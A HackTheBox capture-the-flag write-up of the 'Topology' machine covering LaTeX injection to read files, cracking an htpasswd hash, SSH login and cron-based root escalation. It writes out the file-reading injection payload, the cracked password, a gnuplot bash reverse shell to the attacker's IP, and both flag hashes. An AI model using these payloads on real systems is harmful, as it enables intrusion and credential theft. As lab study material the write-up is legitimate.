






# Topology
## Enumeration
### Port Scanning
The system has two open ports, 22 and 80:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 06:33 EDT
Nmap scan report for 10.10.11.217
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ nmap -sV -sC $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 06:33 EDT
Nmap scan report for 10.10.11.217
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ nmap -p- $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-04 06:34 EDT
Nmap scan report for 10.10.11.217
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.85 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ 
```

### HTTP
If we access the webserver, we find a welcome page of the Miskatonic University:


On the website is only one relevant link redirecting to http://latex.topology.htb/equation.php.

#### LaTeX Equation Generator
The link leads to a LaTeX Equation Generator:


Here we can type in LaTeX statements that will be converted into a PNG.

#### Web directories
Accessing the root directory allows us to navigate through the webdirectories:


One interesting information that we find in here, is that the website probably uses pdfTeX. From the file `equationtest.log`:
```
This is pdfTeX, Version 3.14159265-2.6-1.40.20 (TeX Live 2019/Debian) (preloaded format=pdflatex 2022.2.15)  12 MAR 2022 08:48
```

pdfTeX is used to create a PDF document from LaTeX statements.

The other files in the directory don't seem to be interesting.

## LaTeX injection
It could be possible to inject specific LaTeX statements, that execute system commands or shows file content.

Payloads can be found here:
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)
* [HackTricks](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection)

If we try several payloads, we find out that many commands aren't allowed:


But the payload `\lstinputlisting{/etc/passwd}` throws another error:


So if we try to wrap the command like `$\lstinputlisting{/etc/passwd}$` then we are successful:


There is a user on the system: `vdaisley`

This seems to be the only injection that we can use, and we are only able to read out files of the system. But we don't really have a clue what file we are looking for.

## Enumerating further
Enumerating the directories of the webserver didn't return any useful results.

The LaTeX application is located at a subdomain. So maybe it's worth trying to enumerate more subdomains. For that we can use `ffuf`. To get the size that we have to filter out we can just request a non-existing domain:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ curl -s -H "Host: thisshouldnotexist.topology.htb" http://topology.htb | wc -c
6767

┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$
```

And then run the enumeration:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u http://topology.htb -H "Host: FUZZ.topology.htb" -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 498ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 4352ms]
    * FUZZ: stats

[WARN] Caught keyboard interrupt (Ctrl-C)


                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ 
```

Using the HTTP header allows us to enumerate virtual hosts without DNS entries (see also https://github.com/ffuf/ffuf#example-usage). So we don't have to create local DNS entries to enumerate the possible subdomains.

Another way to get virtual hosts on the system is to read out the apache configurations with our LaTeX injection. For example the file `/etc/apache2/sites-enabled/000-default.conf`:

```
<VirtualHost *:80>

    [...]

    ServerName topology.htb

    ServerAdmin vdaisley @topology.htb
    DocumentRoot /var/www/html

    [...]

</VirtualHost>

<VirtualHost *:80>

    [...]

    ServerName latex.topology.htb

    ServerAdmin vdaisley @topology.htb
    DocumentRoot /var/www/latex

    [...]

</VirtualHost>

<VirtualHost *:80>

    [...]

    ServerName dev.topology.htb

    ServerAdmin vdaisley@topology.htb
    DocumentRoot /var/www/dev
    
    [...]

</VirtualHost>

<VirtualHost *:80>

    [...]
    
    ServerName stats.topology.htb

    Server Admin vdaisley@topology.htb
    DocumentRoot /var/www/stats

    [...]

</VirtualHost>
```

So we found the following two vHosts:
* dev.topology.htb
* stats.topology.htb

### stats.topology.htb
This site shows some information of the system load:


Nothing interesting here.

### dev.topology.htb
In the `ffuf` output we already saw a 401 error when accessing the site. So the website requires authentication:


But the login is called by the browser. This is a sign for basic authorization over the `.htaccess` file.

We already found the document root of the virtual host. So we can try to read out `/var/www/dev/.htaccess` with our LaTeX injection:


Accessing `/var/www/dev/.htpasswd` reveals a password hash:


This hash can easily be cracked:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ cat htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt htpasswd       
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:06 DONE (2023-11-04 11:24) 0.1501g/s 149506p/s 149506c/s 149506C/s calebhart..caitlyn10
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ 
```

If we log in on the website we just find a portfolio. Nothing interesting here.

## User flag
But if we use the credentials to login via SSH we can get the user flag:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ ls -al 
total 32
drwxr-xr-x 4 vdaisley vdaisley 4096 Jun 12 10:38 .
drwxr-xr-x 3 root     root     4096 May 19 13:04 ..
lrwxrwxrwx 1 root     root        9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 vdaisley vdaisley  220 Jan 17  2023 .bash_logout
-rw-r--r-- 1 vdaisley vdaisley 3771 Jan 17  2023 .bashrc
drwx------ 2 vdaisley vdaisley 4096 May 19 13:04 .cache
drwx------ 3 vdaisley vdaisley 4096 May 19 13:04 .config
-rw-r--r-- 1 vdaisley vdaisley  807 Jan 17  2023 .profile
-rw-r----- 1 root     vdaisley   33 Nov  4 11:31 user.txt
vdaisley@topology:~$ cat user.txt 
4acd9a7544169922103fbe12b94959ab
vdaisley@topology:~$ 
```

## Privilege escalation
We find the folder `/opt/gnuplot` with unusual access rights:
```
vdaisley@topology:/$ ls -al /opt/
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx  2 root root 4096 Nov  4 12:08 gnuplot
vdaisley@topology:/$ 
```

Further enumeration of the system brought up nothing relevant.

At this point we can use different scripts like `LinPEAS` or `pspsy`. The latter finds interesting processes that come up every minute:
```
vdaisley@topology:/tmp$ ./pspy64 | tee pspy64.txt
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

[...]

2023/11/04 12:08:01 CMD: UID=0     PID=44886  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/04 12:08:01 CMD: UID=0     PID=44885  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/04 12:08:01 CMD: UID=0     PID=44884  | /usr/sbin/CRON -f 
2023/11/04 12:08:01 CMD: UID=0     PID=44883  | /usr/sbin/CRON -f 
2023/11/04 12:08:01 CMD: UID=0     PID=44893  | cut -d   -f3,7 
2023/11/04 12:08:01 CMD: UID=0     PID=44892  | tr -s   
2023/11/04 12:08:01 CMD: UID=0     PID=44891  | grep enp 
2023/11/04 12:08:01 CMD: UID=0     PID=44890  | netstat -i 
2023/11/04 12:08:01 CMD: UID=0     PID=44889  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 12:08:01 CMD: UID=0     PID=44888  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/04 12:08:01 CMD: UID=0     PID=44887  | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/04 12:08:01 CMD: UID=0     PID=44897  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 12:08:01 CMD: UID=0     PID=44896  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 12:08:01 CMD: UID=0     PID=44895  | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/04 12:08:01 CMD: UID=0     PID=44894  | /bin/sh /opt/gnuplot/getdata.sh 

```

The important command is `find /opt/gnuplot -name *.plt -exec gnuplot {} ;`. The root user runs all .plt files in `/opt/gnuplot` with `gnuplot`. Since we can write to that directory, we can create a file with any command that will be executed by root.

`gnuplot` can also run system commands out of .plt files with the statement `system`. Using that information we can create a reverse shell that will be executed by root:
```
vdaisley@topology:/$ printf "system \"bash -c \'bash -i >& /dev/tcp/10.10.16.25/8081 0>&1\'\"" > /opt/gnuplot/exploit.plt
vdaisley@topology:/$ 
```

When `gnuplot` is executed we can catch the shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/topology]
└─$ nc -lnvp 8081                                                       
Listening on 0.0.0.0 8081
Connection received on 10.10.11.217 42194
bash: cannot set terminal process group (45624): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@topology:~# 
```

### Cronjobs
As root we can also inspect the cronjobs that execute the `find` command:
```
root@topology:~# crontab -l
crontab -l

[...]

# m h  dom mon dow   command
* * * * * /opt/gnuplot/getdata.sh
* * * * * find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
*/10 * * * * find "/opt/gnuplot" -name "*.plt" -mmin +5 -mmin -300 -exec /usr/bin/rm -rf {} \;
root@topology:~# 
```

### Root flag
Now we can read out the root flag:
```
root@topology:~# ls -al 
ls -al 
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Nov  4 11:31 root.txt
root@topology:~# cat root.txt
cat root.txt
92ec797b24383989a972139ee5d077c0
root@topology:~# 
```